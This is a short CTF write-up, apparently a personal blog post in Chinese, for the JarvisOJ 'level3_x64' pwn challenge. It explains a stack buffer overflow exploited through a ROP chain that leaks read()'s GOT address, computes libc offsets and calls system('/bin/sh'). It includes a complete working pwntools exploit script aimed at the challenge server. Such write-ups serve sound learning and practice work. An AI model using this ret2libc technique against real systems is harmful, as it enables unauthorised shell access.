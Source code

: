 ```yaml
---
layout:     post
title:      jarvisoj [XMAN]level3_x64
author:     wooy0ung
tags: 		pwn
category:  	writeup
---
```



>Problem Address:  
>https://www.jarvisoj.com  
>  
>Download:  
>https://dn.jarvisoj.com/challengefiles/level3_x64.rar.8e639c3daf929853a1bc654d79c7992c  
>  
>Address:  
>nc pwn2.jarvisoj.com 9883  
<!-- more -->


### 0x00 exploit

缓冲区

![](/assets/img/writeup/pwn/2017-07-13-jarvisoj-level3_x64/0x00.png)

![](/assets/img/writeup/pwn/2017-07-13-jarvisoj-level3_x64/0x01.png)

构造rop链，调用write(0, read_got, 0x08)，打印got表read()的地址

![](/assets/img/writeup/pwn/2017-07-13-jarvisoj-level3_x64/0x02.png)

计算偏移，构造system("/bin/sh")

![](/assets/img/writeup/pwn/2017-07-13-jarvisoj-level3_x64/0x03.png)

最终exploit如下

```
#!/usr/bin/python
# -*- coding:utf8 -*-

from pwn import *

elf = ELF('level3_x64')
libc = ELF('libc-2.19.so')

read_libc_addr = libc.symbols['read']
system_libc_addr = libc.symbols['system']
exit_libc_addr = libc.symbols['exit']
bin_sh_libc_addr = 0x17C8C3

junk = 'A' * (0x80 + 0x08)
pop_rdi_ret_addr = 0x4006b3
pop_rsi_ret_addr = 0x4006b1
read_got_addr = elf.got['read']
write_plt_addr = elf.plt['write']
main_addr = elf.symbols['main']

Io = remote('pwn2.jarvisoj.com', 9883)

payload = junk + p64(pop_rdi_ret_addr) + p64(0x01) + p64(pop_rsi_ret_addr) + p64(read_got_addr) + p64(0) + p64(write_plt_addr) + p64(main_addr)
Io.recvuntil("Input:\n")

Io.send(payload)

temp = Io.recv(8)

read_addr = u64(temp[0:8])
offset = read_addr - read_libc_addr

system_addr = system_libc_addr + offset
exit_addr = exit_libc_addr + offset
bin_sh_addr = bin_sh_libc_addr + offset

payload = junk + p64(pop_rdi_ret_addr) + p64(bin_sh_addr) + p64(system_addr) + p64(exit_addr)

Io.send(payload)
Io.interactive()
```

得到flag

![](/assets/img/writeup/pwn/2017-07-13-jarvisoj-level3_x64/0x04.png)
